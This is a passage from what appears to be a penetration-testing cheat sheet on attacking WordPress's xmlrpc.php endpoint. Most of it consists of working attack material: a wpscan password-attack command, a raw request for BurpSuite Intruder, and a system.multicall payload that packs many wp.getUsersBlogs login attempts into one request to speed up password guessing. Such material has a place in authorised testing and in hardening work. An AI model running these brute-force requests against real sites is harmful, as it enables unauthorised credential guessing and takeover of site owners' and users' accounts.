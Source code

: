 Normal response to this request would be listing all available methods.

This is how you trigger the method blogger.getUsersBlogs:

![display available methods](img/xmlrpc_01.png)



### XML-RPC brute force attack

With wpscan:

```bash
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://<TARGET>
```

Use BurpSuite Intruder to send this request:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 235

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```

You can also perform a single request, and brute force hundreds of passwords. For that you need to use both system.multicall and wp.getUsersBlogs methods:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
```
